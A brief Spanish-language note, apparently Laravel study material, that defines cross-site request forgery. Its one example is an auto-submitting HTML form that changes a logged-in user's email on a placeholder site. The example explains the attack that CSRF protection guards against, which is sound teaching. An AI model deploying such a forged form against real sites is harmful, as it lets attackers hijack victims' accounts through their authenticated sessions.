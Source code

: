 Un `Cross-site request forgeries` son un tipo de `exploit` malicioso mediante el cual se ejecutan `comandos no autorizados` de un usuario autenticado

## Ejemplo


```php
<form action="https://your-application.com/user/email" method="POST">
    <input type="email" value="malicious-email@example.com">
</form>
 
<script>
    document.forms[0].submit();
</script>
```
## Tags

##### #Laravel
##### #Laravel-CSRF
